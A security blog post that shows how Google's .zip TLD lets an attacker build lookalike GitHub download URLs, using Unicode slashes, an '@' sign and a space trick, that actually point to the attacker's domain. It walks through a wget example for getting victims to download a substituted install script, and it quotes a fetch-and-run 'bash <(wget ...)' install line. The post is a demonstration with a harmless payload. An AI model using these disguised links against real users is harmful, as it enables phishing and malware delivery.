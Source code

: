 ```yaml
---
title: "Demo of 20230609.zip"
date: 2018-01-18T23:02:53+03:00
draft: false
description: "Shows how google new .zip TLD can be abused."
# weight: 1
# aliases: ["/20230609-zip"]
tags: []
# author: ["Me", "You"] # multiple authors
author: "wes4m"
dir: "ltr"

showToc: false
TocOpen: false
hidemeta: false
comments: false
disableHLJS: true
disableShare: false
disableHLJS: false
hideSummary: true
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: false
ShowRssButtonInSectionTermList: false
UseHugoToc: false
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
---
```




Google launched 8 new TLDs on May 3rd, 2023 for EAP including .zip ([Link](https://registry.google/announcements/launch-details-for-eight-new-tlds/))
The security community had fun coming with all kinds of phishing ideas using it.



I made a tool that demonstrated some of this https://20230609.zip. More details and explinations are found in its homepage. The following is just one example of what can be done.



## Github repos

Many github repos include scripts such as `build.sh` `docker-build.sh` `install.sh` ... 



If someone can be fooled into downloading a repo thinking it's something they're intending to download, but instead getting something else, then executing any of these or not. Can be very dangerous.



Let's take for example this very popular (76k stars) repo for stable-diffusion [AUTOMATIC1111/stable-diffusion-webui ](https://github.com/AUTOMATIC1111/stable-diffusion-webui)



It contains a file named `webui.sh`, and the official readme suggests the following to install it

### Automatic Installation on Linux

1. Install the dependencies:

```
# Debian-based:
sudo apt install wget git python3 python3-venv
# Red Hat-based:
sudo dnf install wget git python3
# Arch-based:
sudo pacman -S wget git python3
```

2. Navigate to the directory you would like the webui to be installed and execute the following command:

```
bash <(wget -qO- https://raw.githubusercontent.com/AUTOMATIC1111/stable-diffusion-webui/master/webui.sh)
```



Just to be clear, there is nothing wrong with any of this. You should always verify what you're executing. However, for a popular open-source project most peope will just copy-paste and run commands, and trying to read every line of code in a project is not feasible. So  just trusting the open source community is easier and a very reasonable path to take for a well known project. However, with some trickery you can use this trust, copy-pasting, and google's new .zip TLD to cause some trouble.



I created a demo repo here that contains some harmless bash scripts [wes4m/20230609-demo ](https://github.com/wes4m/20230609-demo) including a `webui.sh` that echos a message when executed. Using this and the link of an automatic111 webui's release

```sh
https://github.com/AUTOMATIC1111/stable-diffusion-webui/archive/refs/tags/v1.2.1.zip
```

in [20230609.zip](https://20230609.zip) to generate the following

````sh
http://github.com∕automatic1111∕stable-diffusion-webui∕archive∕refs∕tags∕@v1.2.1.20230609.zip
````

Which looks fairly normal for someone just quickly exeucting commands. It can be used in the browser or through any other tool such as

```
wget -qO v1.2.1.zip http://github.com∕automatic1111∕stable-diffusion-webui∕archive∕refs∕tags∕@v1.2.1.20230609.zip
```

Or using the space trick

```sh
wget -qO v1.2.1.20230609.zip https://github.com/automatic1111/stable-diffusion-webui/archive/refs/tags/ v1.2.1.20230609.zip
```

For explanations check  [20230609.zip](https://20230609.zip).



Now I can use this link to convince someone, or post it somewhere as an answer maybe, as a way to download the project, or and older more stable version of it? to get the victim to execute my own file.



<center><img src="/images/20230609-demo-1.png"/></center>



Of course the name of the repo is obvious in this one, as I didn't bother making it more convincing, but you get the idea.



## More tricks?

if you have more tricks please let me know so I can add them to page. Thanks ❤️